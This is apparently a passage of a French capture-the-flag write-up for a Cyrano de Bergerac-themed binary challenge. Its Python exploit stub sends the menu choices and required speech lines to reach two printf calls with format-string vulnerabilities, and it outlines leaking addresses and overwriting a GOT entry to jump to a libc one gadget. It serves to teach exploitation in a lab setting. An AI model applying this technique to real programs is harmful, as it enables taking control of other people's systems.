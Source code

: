 <div>
    <img src="assets/help_christian.PNG", style="max-width:100%;margin-left: 50%;transform: translateX(-50%);">
</div>

On doit fournir en input une suite de phrase attendues par le programme, puis on peut avoir accès à deux appels à printf vulnérables à des format strings, idéalement une pour leak des adresses et l'autre pour exploiter! On va déjà envoyer ce que le programme attend en input pour avoir accès aux format strings:

```python
def exp():

    io = start()

    # Helping christian

    io.send(b"1\n1\n")
    
    # Filling required speech

    io.sendline(b"M'accuser, - justes dieux ! - De n'aimer plus... quand... j'aime plus !")
    io.sendline(b"L'amour grandit berce dans mon ame inquiete... Que ce... cruel marmot prit pour... barcelonnette !")
    io.sendline(b"Aussi l'ai-je tente, mais... tentative nulle. Ce... nouveau-ne, Madame, est un petit... Hercule.")
    io.sendline(b"De sorte qu'il... strangula comme rien... Les deux serpents... Orgueil et... Doute.")
```
Après le plan va être d'exploiter le fait qu'il n'y ait pas de `Full RELRO` pour overwrite une adresse dans la `GOT` qui redirigera vers un one gadget de la libc:
